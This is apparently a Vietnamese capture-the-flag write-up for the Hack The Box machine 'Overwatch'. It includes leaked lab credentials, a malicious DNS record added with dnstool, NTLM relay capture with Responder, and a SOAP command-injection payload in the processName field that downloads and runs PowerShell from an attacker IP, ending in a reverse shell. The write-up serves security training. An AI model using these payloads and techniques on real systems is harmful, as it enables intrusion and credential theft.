# Overwatch



Sử dụng lệnh `rustscan -a 10.129.244.81 -u 1000 -- -sV -Pn` để scan các port service đang mở trên server



Dùng lệnh `smbclient -N -L //overwatch.htb/` để kiểm tra các thư mục public xem có gì không, sau đó dùng `smbclient -N //overwatch.htb/software\$`



Tìm thấy các file exe và dll trong smb ở dạng public, đưa vào công cụ dnspy để dịch ngược:


Tìm được tài khoản và mật khẩu của 1 user là `sqlsvc:TI0LKcfHzZw1Vv`



Ngoài ra trong đoạn code này có method `KillProcess` là dính cmdi do không có filter gì cả:



Thử dùng lệnh `evil-winrm -i "10.129.244.81" -u "sqlsvc" -p "TI0LKcfHzZw1Vv"` để kết nối vào xem như nào nhưng có vẻ không được 



Sử dụng lệnh `impacket-mssqlclient -windows-auth overwatch/sqlsvc:'TI0LKcfHzZw1Vv'@10.129.244.81 -port 6520` để kết nối vào mssql trên server và kiểm tra các thông tin liên quan:



Trong database `overwatch` không có gì đặc biệt lắm, sử dụng `sp_linkedservers` để liệt kê các linked server và thấy `SQL07` 



Sử dụng tool [dnstool](https://github.com/dirkjanm/krbrelayx) dùng cred của `sqlsvc`, có thể thấy 2 domain và 2 forest 



Sử dụng lệnh `python3 dnstool.py 10.129.244.81 -u OVERWATCH\\sqlsvc -p 'TI0LKcfHzZw1Vv' --action add --record SQL07.overwatch.htb --data 10.10.14.143` để thêm một bản ghi DNS mới, ở đây là `SQL07.overwatch.htb` và trỏ tới địa chỉ ip của tôi là `10.10.14.143`



Sau đó chạy responder `sudo responder -I tun0` để lắng nghe và truy cập lại vào mssql, sử dụng `EXEC sp_testlinkedserver @servername = N'SQL07';` 



Sau đó nhận được cred là `sqlmgmt:bIhBbzMMnB82yx`, dùng cred đó để truy cập vào thông qua evil-winrm và lấy được flag, sử dụng cred này với các service khác nhưng không có gì đặc biệt



Kiểm tra các port đang được dùng trên máy:





Thấy được ở cổng 8000 đang chạy `HTTP://+:8000/MONITORSERVICE/`, đây là trang web mà đã dịch ngược được để public ở smb và có chứa lỗ hổng cmdi:



Dùng lệnh `iwr "http://overwatch.htb:8000/MonitorService" -UseBasicParsing` để gửi request thử tới cổng 8000, có thể thấy đây là con soap:





Tiếp theo chạy thử để xem dữ liệu như nào:

```
iwr "http://overwatch.htb:8000/MonitorService?xsd=xsd0" -UseBasicParsing -OutFile xsd.xml
type .\xsd.xml
```



Có thể thấy là có thể truyền dữ liệu vào `processName` trong `KillProcess` để cmdi:



Thử payload cmdi gửi request đến máy của attacker thì thấy bắt được => có cmdi out band:

```
$body = @"
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <KillProcess xmlns="http://tempuri.org/">
      <processName>notepad.exe; IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.143:1234/') #</processName>
    </KillProcess>
  </soap:Body>
</soap:Envelope>
"@
```

```
Invoke-WebRequest -Uri "http://localhost:8000/MonitorService" `
  -Method POST `
  -Body $body `
  -ContentType "text/xml; charset=utf-8" `
  -Headers @{"SOAPAction"="http://tempuri.org/IMonitoringService/KillProcess"} `
  -UseBasicParsing
```



Nhận được kết nối từ máy của target:



Reverse shell thành công:

